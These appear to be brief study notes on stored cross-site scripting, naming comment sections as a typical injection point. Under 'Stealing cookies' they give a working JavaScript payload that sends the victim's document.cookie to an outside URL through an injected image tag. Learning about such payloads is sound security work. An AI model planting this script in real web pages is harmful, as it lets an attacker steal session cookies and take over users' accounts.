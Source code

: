 ### Stored XSS

---

- Stored XSS happens when the data received is stored in HTTP responses in an unsafe way
- Comment section
- Same payloads


#### Stealing cookies

```js
<script>
document.write('<img src="[URL]?c='+document.cookie+'" />');
</script>
```
